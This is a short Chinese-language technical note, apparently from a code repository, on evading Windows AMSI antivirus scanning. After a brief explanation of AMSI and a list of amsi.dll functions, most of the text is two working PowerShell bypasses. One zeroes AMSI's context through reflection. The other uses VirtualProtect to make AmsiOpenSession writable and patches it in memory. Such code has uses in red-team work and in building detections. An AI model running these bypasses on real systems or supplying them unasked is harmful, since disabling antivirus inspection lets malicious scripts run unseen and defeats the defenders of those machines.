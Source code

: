 windows defender等杀软在执行命令运行时 会通过amsi.dll来检测是否有危险api被调用。
 
AMSI captures every PowerShell, Jscript, VBScript, VBA, or .NET command or script at run-time and passes it to the local antivirus software for inspection.

AMSI.dll
- AmsiInitialize
- AmsiOpenSession
- AmsiScanString
- AmsiScanBuffer
- AmsiCloseSession

绕过方式1
通过powershell 把context值改为0
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

绕过方式2
通过amsiOpenSession 进行绕过
```powershell
function LookupFunc 
{
    Param ($moduleName, $functionName)

    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() |
      Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')

    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}} 
    return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null,@($moduleName)), $functionName)) 
}

function getDelegateType 
{
    Param ( [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func, [Parameter(Position = 1)] [Type] $delType = [Void] )

    $type = [AppDomain]::CurrentDomain.
      DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')),
        [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
          DefineDynamicModule('InMemoryModule', $false).
          DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass',
          [System.MulticastDelegate])

    $type.
      DefineConstructor('RTSpecialName, HideBySig, Public',[System.Reflection.CallingConventions]::Standard, $func).
        SetImplementationFlags('Runtime, Managed')

    $type.
      DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
        SetImplementationFlags('Runtime, Managed')

    return $type.CreateType() 
}

[IntPtr]$funcAddr = LookupFunc amsi.dll AmsiOpenSession
$oldProtectionBuffer = 0
$vp=[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualProtect), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32].MakeByRefType()) ([Bool])))
$vp.Invoke($funcAddr, 3, 0x40, [ref]$oldProtectionBuffer)
```

```powershell
$buf = [Byte[]] (0x48, 0x31, 0xC0)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $funcAddr, 3)
```
